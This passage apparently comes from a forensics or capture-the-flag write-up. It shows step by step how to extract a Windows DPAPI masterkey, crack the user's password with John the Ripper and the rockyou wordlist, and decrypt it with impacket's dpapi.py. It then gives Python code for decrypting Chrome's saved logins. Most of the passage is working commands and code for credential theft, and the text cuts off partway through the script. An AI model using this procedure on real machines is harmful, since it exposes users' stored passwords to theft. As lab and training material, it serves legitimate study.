 We will need access to ‘CryptUnprotectData‘, which is normally unavailable. To do that, we need to extract the **masterkey** stored in the Protect directory.

```bash
cp -r AppData/Roaming/Microsoft/Protect tempdir/
```

JohnTheRipper jumbo version has a code to extract hashes from MasterKey files: **DPAPImk2john.py**. We need to run it and save the hash before bruteforcing it.

```bash
DPAPImk2john.py -S S-1-5-21-3702016591-3723034727-1691771208-1002 -mk tempdir/Protect/S-1-5-21-3702016591-3723034727-1691771208-1002/865be7a6-863c-4d73-ac9f-233f8734089d -c local> mkhash
john --wordlist=/usr/share/wordlists/rockyou.txt mkhash
```

Now that we found the user’s password, we can use impacket’s dpapi.py and get the actual Master Key.

```bash
dpapi.py masterkey -file tempdir/Protect/S-1-5-21-3702016591-3723034727-1691771208-1002/865be7a6-863c-4d73-ac9f-233f8734089d -sid S-1-5-21-3702016591-3723034727-1691771208-1002 -password ransom
```

With the Decrypted Master Key we are now capable of decrypting the Chrome passwords.

It took a while to put together something that would work on a Linux VM. Here is the final code :

```python
import os
import json
import sqlite3
import base64
from impacket.dpapi import DPAPI_BLOB
from binascii import unhexlify
from Cryptodome.Cipher import AES

local_state = 'tempdir/Local State'
login_data = 'tempdir/Login Data'
masterkey = unhexlify("138f089556f32b87e53c5337c47f5f34746162db7fe9ef47f13a92c74897bf67e890bcf9c6a1d1f4cc5454f13fcecc1f9f910afb8e2441d8d3dbc3997794c630")

def get_encrypted_key(localstate):
    with open(localstate, 'r') as f:
        encrypted_key = json.load(f)['os_crypt']['encrypted_key']
        encrypted_key = base64.b64decode(encrypted_key)
    f.close()
    return encrypted_key

def get_credentials(logindata):
    conn = sqlite3.connect(logindata)
    cursor = conn.cursor()
    cursor.execute('SELECT action_url, username_value, password_value FROM logins')
    rows = cursor.fetchall()
    url = rows[0][0]
    username = rows[0][1]
    encrypted_value = rows[0][2]
    return url, username, encrypted_value

def decrypt_creds(key, value):
    if value.startswith(b'v10'):
        nonce = value[3:3+12]
        ciphertext = value[3+12:-16]
        tag = value[-16:]
        cipher = AES.new(key, AES.MODE_GCM, nonce)
        password = cipher.decrypt_and_verify(ciphertext, tag)
    else:
        password = DPAPI_BLOB.decrypt(value)
    return password
```